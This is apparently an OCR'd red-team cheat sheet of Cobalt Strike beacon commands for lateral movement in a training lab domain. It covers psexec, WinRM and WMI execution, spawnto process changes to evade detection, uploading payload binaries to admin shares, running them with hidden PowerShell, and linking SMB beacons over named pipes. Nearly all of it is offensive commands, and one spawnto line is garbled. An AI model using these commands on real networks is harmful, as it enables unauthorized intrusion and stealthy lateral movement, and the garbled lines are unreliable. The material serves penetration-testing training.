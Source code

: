 # Using remote exec
## You also need to connect to P2P Beacons manually using connect or link.
beacon> remote-exec psexec/winrm/wmi ComputerName <uploaded binary on remote system>
# To execute commands
beacon> remote-exec winrm ComputerName <execute commands>
#--------------------------------------------------------------
# Using PSExec (Requires TGS for CIFS)
## Make sure to change the Post-Ex process for Psexec which is Rundll32.exe by default and even Malleable c2's Post-Ex don't help here , So we have to do it manually using spawnto.
beacon> ak-settings
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswrun klist ow64\dllhost.exe

beacon> jump psexec64 web.dev.cyberbotic.io smb
beacon> jump psexec_psh web.dev.cyberbotic.io smb

beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec psexec web.dev.cyberbotic.io C:\Windows\smb_x64.exe
beacon> remote-exec psexec sql-2 powershell.exe -nop -w hidden -c 'C:\Windows\smb_x64.exe'
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
## Then use powerpick to get its own process name, it will return dllhost.
beacon> powerpick Get-Process -Id $pid | select ProcessName

#-------------------------------------------------------------------------------------
# Example Windows Remote Management (WinRM) - (Requires TGS for HOST & HTTP)
beacon> ls \\web.dev.cyberbotic.io\c$
beacon> jump winrm64 web.dev.cyberbotic.io smb
beacon> jump winrm web.dev.cyberbotic.io smb

beacon> cd \\web.dev.cyberbotic.io\c$\ProgramData
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec winrm web.dev.cyberbotic.io C:\Windows\smb_x64.exe
beacon> remote-exec winrm sql-2 powershell.exe -nop -w hidden -c 'C:\Windows\smb_x64.exe'
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff1
#-------------------------------------------------------------------------------------
# Example Windows Management Instrumentation (WMI) - (Requires TGS for HOST & RPCSS)
# If gets COM Error try to upload the binary to directory where user may have access
beacon> cd \\web.dev.cyberbotic.io\c$\ProgramData
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
beacon> remote-exec wmi sql-2 powershell.exe -nop -w hidden -c 'C:\Windows\smb_x64.exe'
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
